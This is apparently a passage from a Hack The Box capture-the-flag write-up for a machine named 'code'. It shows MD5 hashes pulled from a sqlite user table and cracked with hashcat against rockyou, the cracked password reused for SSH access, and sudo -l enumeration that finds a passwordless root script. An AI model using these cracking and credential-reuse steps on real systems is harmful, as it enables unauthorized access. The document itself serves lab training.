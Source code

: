```bash
INSERT INTO user VALUES(2,'martin','3de6f30c4a09c27fc71932bfc68474be');
COMMIT;
```

We accessed the database using `sqlite3` and without the need of a password. We identified the tables and we extracted the information from the `user` table. There we found the following username and hashes:


| Username | MD5 hash |
| --- | --- |
| development | 759b74ce43947f5f4c91aeddc3e5bad3 |
| martin | 3de6f30c4a09c27fc71932bfc68474be |

We copied this information to a file called `dev.hash` to our machine and we used a local copy of the `Hashcat` to brute-force them, as shown below:

```bash
┌─[george@parrot]─[~/htb/lvl1/code]
└──╼ $hashcat -a 0 -m 0 dev.hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --show
759b74ce43947f5f4c91aeddc3e5bad3:development

┌─[george@parrot]─[~/htb/lvl1/code]
└──╼ $hashcat -a 0 -m 0 martin.hash ~/SecLists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --show
3de6f30c4a09c27fc71932bfc68474be:nafeelswordsmaster
```

Our first thought was to use the above credentials to SSH into the remote server, based on the common tendency of humans to reuse the same password for different platforms and services. We tried the following sets of credentials:

* [ ] development:development
* [x] martin:nafeelswordsmaster

The credentials for the user `martin` worked and we were on the box. At this point could read the `user.txt` to get the user flag, but we also needed to find a way to perform privilege escalation to the root user. It is a common practice to execute the command `sudo -l` to see what permissions the user has on the server, what commands can run using `sudo` and if there is a need for a password.

```bash
martin@code:~/backups$ id
uid=1000(martin) gid=1000(martin) groups=1000(martin)
martin@code:~/backups$ groups
martin
martin@code:~/backups$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

We noticed that we could execute `/usr/bin/backy.sh` using sudo without a password. However, that was a local bash script file that we had no information about; therefore, we had to examine its contents.
